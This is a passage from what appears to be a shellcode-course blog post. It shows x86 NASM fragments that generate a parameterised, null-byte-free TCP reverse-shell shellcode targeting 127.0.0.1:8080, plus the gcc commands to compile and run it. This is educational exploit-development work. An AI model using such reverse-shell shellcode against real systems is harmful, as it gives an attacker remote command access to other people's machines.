 Here is the interesting part in our template:  
```nasm
...
    push edx
    mov byte [esp], IP1    ; useful to avoid null bytes with parametrized IP
    mov byte [esp+1], IP2  ; If 00 will be replaced by dl
    mov byte [esp+2], IP3     
    mov byte [esp+3], IP4

    push dx                  ; useful to avoid null bytes with parametrized port
    mov byte [esp], PORT1    ; mysockaddr.sin_port = htons(dstport); //8080
    mov byte [esp+1], PORT2 
...
```
  
And have a look at the result shell_reverse_tcp.nasm file:  
```nasm
...
    push edx
    mov byte [esp], 0x7f    ; useful to avoid null bytes with parametrized IP
    mov byte [esp+1], dl  ; If 00 will be replaced by dl
    mov byte [esp+2], dl     
    mov byte [esp+3], 0x1

    push dx                  ; useful to avoid null bytes with parametrized port
    mov byte [esp], 0x08    ; mysockaddr.sin_port = htons(dstport); //8080
    mov byte [esp+1], dl 
...
```
  
We are pushing the *dl* byte register in replacement of a null byte.  
  
So now let's confirm that the generated nasm source file leads to a working shellcode once compiled thanks to [shellcode.c](https://github.com/phackt/slae/tree/master/assignment2/shellcode.c):  
```bash
gcc -fno-stack-protector -z execstack -o shellcode shellcode.c && ./shellcode 
Shellcode Length: 106

```
  
And here we are:  
![image2]({{ site.url }}/public/images/slae/assignment2/image2.png)  

So now we can parametrize the port number, the IP address, and you can generate a TCP reverse shellcode without any null bytes.  
  
Hope you enjoyed,  
Don't hesitate to comment and share.  
  
[Phackt](https://twitter.com/phackt_ul)

